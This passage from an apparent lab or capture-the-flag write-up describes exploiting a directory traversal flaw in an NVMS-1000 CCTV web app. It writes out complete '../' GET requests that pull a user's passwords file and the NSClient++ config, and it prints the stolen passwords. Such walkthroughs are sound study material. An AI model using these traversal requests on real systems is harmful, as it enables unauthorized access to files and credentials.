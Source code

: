 ### 3. Check out the websites
Looking at both the web servers, one is hosting a NVMS-1000 web application which is used to control CCTV. The server on 8443 is hosting NSClient++. Looking at the lists above, see that the password for NVMS is changed from the default and that access for NSClient is locked down. Normal channels of enumeration such as dirbusting don't turn up much.  
  
When looking into NVMS-1000, see that there is a known directory traversal vulnerability that can be used to retrieve arbritary files from the server: https://github.com/AleDiBen/NVMS1000-Exploit.  
Reading the code, exploiting this issue isn't too difficult, as it is just a straightforward "../" * 50 and then the filename.

### 4. Retrieve the passwords
Tried a few premade tools, none of them seemed to work right, so just did the exploitation manually in Burpsuite. The location of the passwords file was already known, as Nadine said it was on Nathan's desktop.  
Request:
```
GET /../../../../../../../../../../../../../../users/nathan/desktop/passwords.txt HTTP/1.1
Host: 10.129.103.173
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1
```
Response:
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
Also retrieve the NSClient++ password. Googled where to find the password file.  
Request:
```
GET /../../../../../../../../../../../../../../Program+Files\NSClient%2b%2b\nsclient.ini HTTP/1.1
Host: 10.129.103.173
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1
```
Response:
```
HTTP/1.1 200 OK
Content-type: 
Content-Length: 2683
Connection: close
AuthInfo: 


# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help

; in flight - TODO
```
